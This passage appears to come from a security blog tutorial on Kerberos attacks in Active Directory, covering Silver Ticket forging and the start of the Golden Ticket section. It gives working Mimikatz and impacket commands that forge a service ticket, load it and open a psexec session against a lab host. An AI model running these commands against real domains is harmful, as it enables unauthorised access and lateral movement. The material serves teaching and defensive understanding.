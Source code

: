 Here is a schematic summarizing the attack:

[![Silver Ticket](/assets/uploads/2019/02/silverticket.png)](/assets/uploads/2019/02/silverticket.png)


In practice, here is a screenshot showing the creation of a Silver Ticket with [Mimikatz](http://blog.gentilkiwi.com/mimikatz) tool developed by Benjamin Delpy ([@gentilkiwi](https://twitter.com/gentilkiwi)).


[![CIFS Example](/assets/uploads/2019/02/ST_CIFS.png)](/assets/uploads/2019/02/ST_CIFS.png)

Here's the command line used in Mimikatz:

```
kerberos::golden /domain:adsec.local /user:random_user /sid:S-1-5-21-1423455951-1752654185-1824483205 /rc4:0123456789abcdef0123456789abcdef /target:DESKTOP-01.adsec.local /service:cifs /ptt
```

This command line creates a ticket for `adsec.local` domain with an arbitrary username (`random_user`), and targets `CIFS` service of `DESKTOP-01` machine by providing its NT hash.

It is also possible to create a Silver Ticket under linux using [impaket](https://github.com/SecureAuthCorp/impacket), via `ticketer.py`.

```bash
ticketer.py -nthash 0123456789abcdef0123456789abcdef -domain-sid S-1-5-21-1423455951-1752654185-1824483205 -domain adsec.local -spn CIFS/DESKTOP-01.adsec.local random_user
``` 

Then export the ticket path into a special environment variable called `KRB5CCNAME`.


```bash
export KRB5CCNAME='/path/to/random_user.ccache'
```

Finally, all the tools from **impacket** can be used with this ticket, via the `-k` option.

```bash
psexec.py -k DESKTOP-01.adsec.local
```

## Golden Ticket

We have seen that with a **Silver Ticket**, it was possible to access a service provided by a domain account if that account was compromised. The service accepts information encrypted with its own secret, since in theory only the service itself and the KDC are aware of this secret.

This is a good start, but we can go further. By building a Silver Ticket, the attacker gets rid of the KDC since in reality, the user's real PAC contained in his TGT does not allow him to perform all the actions he wants.

To be able to modify the TGT, or forge a new one, one would need to know the key that encrypted it, i.e. the KDC key. This key is in fact the hash of the `krbtgt` account. This account is a simple account, with no particular rights (at system or Active Directory level) and is even disabled. This low exposure makes it better protected.

If an attacker ever manages to find the secret's hash of this account, he will then be able to forge a TGT with an arbitrary PAC. And that's kind of like the Holy Grail. Just forge a TGT stating that the user is part of "Domain Admins" group, and that's it.
